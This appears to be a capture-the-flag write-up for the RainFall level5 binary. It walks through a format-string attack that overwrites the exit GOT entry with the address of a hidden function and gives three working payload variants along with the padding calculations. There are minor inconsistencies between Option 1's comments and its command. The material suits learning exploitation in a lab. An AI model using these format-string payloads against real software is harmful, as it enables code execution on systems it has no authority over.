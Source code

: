 ### TIPS

Pour lancer un payload dans gdb

```bash
(gdb) run < <(python -c 'print ("salut" * 5)';)
Starting program: /home/user/level5/level5 < <(python -c 'print ("salut" * 5)';)
salutsalutsalutsalutsalut
```

---

```bash
evel5@RainFall:~$ readelf -s level5 | grep o
Symbol table '.dynsym' contains 10 entries:
     5: 00000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
Symbol table '.symtab' contains 73 entries:
    31: 08048420     0 FUNC    LOCAL  DEFAULT   13 __do_global_dtors_aux
    32: 0804984c     1 OBJECT  LOCAL  DEFAULT   25 completed.6159
    33: 08049850     4 OBJECT  LOCAL  DEFAULT   25 dtor_idx.6161
    39: 080485a0     0 FUNC    LOCAL  DEFAULT   13 __do_global_ctors_aux
    57: 00000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
    59: 08049844     0 OBJECT  GLOBAL HIDDEN    24 __dso_handle
    67: 080484a4    30 FUNC    GLOBAL DEFAULT   13 o

```

```bash
(gdb) x o
0x80484a4 <o>:	0x83e58955
```

address of function o: `080484a4` == `\xa4\x84\x04\x08`

```bash
level5@RainFall:~$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```

offset of buffer of printf is `3` --> 4 je crois

---

```bash
level5@RainFall:~$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```

Address of exit is `08049838` == `\x38\x98\x04\x08`

### Payload

## Option 1

value to write = adress of o = `0x080484a4` = `134513828`

Lets do 2 writes

value 1: `0x 0000 84a4` = `33956`
value 2: `0x 0001 0804` = `67588`

cible 1 = `08049838` == `\x38\x98\x04\x08`

cible 2 = cible1 + 2 == `804983A` == `\x3a\x98\x04\x08`

```python
exploit = ""
exploit += "\x38\x98\x04\x08"	//cible1
exploit += "\x3a\x98\x04\x08"	//cible2
exploit += "%33948x"			// padding to get to value 1 (33956 - 8 = 33948)
exploit += "%4$hn"				//write cible 1
exploit += "%33624x"			//paddding to get to value 2 (67588 - 33956 - 8 = 33624)
exploit += "%5$hn"
```

```bash
(python -c 'print ("\x38\x98\x04\x08" + "\x3a\x98\x04\x08" + "%33948x" + "%4$n" + "%33632x" + "%5$n")';cat) | ./level5

run < <(python -c 'print ("\x38\x98\x04\x08" + "\x3a\x98\x04\x08" + "%33948x" + "%4$n" + "%33632x" + "%5$n")';)
```

## Option 2

Needs to overwrite 0x08049838 (exit) with 0x080484a4 (o)

It means writing 0x0804 (2052) at 0x08049838 + 2 = 0x0804983a (high order)
and 0x84a4 (33956) at 0x08049838 (low order)

Now we have to figure out the value to set for the padding: Here is the forumla:
[The value we want] - [The byte already wrote] = [the value to set]

Let's start with the low order bytes :
It'll be 33956 - 8 = 33948, because we already wrote 8 bytes, the two 4 bytes addresses

Then the high order bytes :
It'ill be 2052 - 33956 = -31904 --> 33632 in uint with overflow

No we can construct the exploit
It'ill be : \x38\x98\x04\x08\x3a\x98\x04\x08%33948x%4$hn%33632x%5$hn

    \x38\x98\x04\x08 or 0x08049838 points to the low order of the target adress
    \x3a\x98\x04\x08 or 0x0804983a points to the high order of the target adress
    %33948x will write 33948 bytes of padding
    %4$hn will write 33956 (0x84a4) at address 0x08049838
    %33632x will write 33632 byte of padding
    %5$hn will write 2052 (bc of overflow) at address 0x0804983a

```bash
(python -c 'print ("\x38\x98\x04\x08\x3a\x98\x04\x08%33948x%4$hn%33632x%5$hn")';cat) | ./level5
```

## Option 3

Needs to overwrite 0x08049838 (exit) with 0x080484a4 (o)

It means writing 0x0804 (2052) at 0x08049838 + 2 = 0x0804983a (high order)
and 0x84a4 (33956) at 0x08049838 (low order)

Now we have to figure out the value to set for the padding: Here is the forumla:
[The value we want] - [The byte already wrote] = [the value to set]

Let's start with the high order bytes :
It'll be 2052 - 8 = 2044, because we already wrote 8 bytes, the two 4 bytes addresses

Then the low order bytes :
It'ill be 33956 - 2052 = 31904

No we can construct the exploit
It'ill be : \x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn
\x3a\x98\x04\x08 or 0x0804983a points to the high order of the target adress
\x38\x98\x04\x08 or 0x08049838 points to the low order of the target adress
%2044x will write 2044 bytes of padding
%4$hn will write 2052 (0x0804) at address 0x0804983a
    %31904x will write 31904 byte of padding
    %5$hn will write 33956 (0x9838) at address 0x08049838

```bash
(python -c 'print ("\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn")';cat) | ./level5
```
